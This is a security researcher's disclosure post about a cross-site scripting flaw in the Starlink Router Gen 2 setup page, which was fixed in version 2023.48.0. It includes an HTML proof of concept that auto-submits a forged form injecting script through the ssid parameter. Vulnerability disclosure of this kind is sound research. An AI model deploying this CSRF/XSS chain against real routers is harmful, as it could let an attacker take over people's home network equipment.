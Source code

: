 # SpaceX / Starlink Router Gen 2 XSS

You can see the Korean version of the post here : <br>
<a href="https://hackintoanetwork.com/blog/2023-starlink-router-gen2-xss-kor/">```https://hackintoanetwork.com/blog/2023-starlink-router-gen2-xss-kor```</a>

## TL;DR

---

Through the XSS vulnerability present in the initial setup page of the second-generation router, an attacker can gain control of the Router and the Dishy.

## **The Basics**

---

- **Product :** Starlink Router Gen 2
- **Tested Version :** 2022.32.0 (The fix is in versions 2023.48.0 and up)
- **Bug-class** : XSS(Cross-Site Scripting)

## ****Overview of the Vulnerability****

---

![img1.webp](https://raw.githubusercontent.com/hackintoanetwork/blog/main/static/blog/2023-Starlink-Router-Gen2-XSS/img1.webp)

This vulnerability arises due to insufficient input filtering for the ssid and password parameters on the initial router setup page ([http://192.168.1.1/setup](http://192.168.1.1/setup)).

```html
<html>
	<body>
		<h1>Proof of Concept</h1>
		<form id="PoC" method="POST" action="http://192.168.1.1/setup">
			<input type="hidden" name="ssid" value='" onfocus=javascript:alert(`XSS`); autofocus="'>
			<!-- <input type="hidden" name="password" value='" onfocus=javascript:alert(`XSS`); autofocus="'> -->
		</form>
		<script type="text/javascript">
			document.addEventListener("DOMContentLoaded", function() {
				document.getElementById("PoC").submit();
			});
		</script>
	</body>
<html>
```

This XSS vulnerability can be triggered in conjunction with a CSRF (Cross-Site Request Forgery) attack as shown in the above PoC (Proof of Concept).
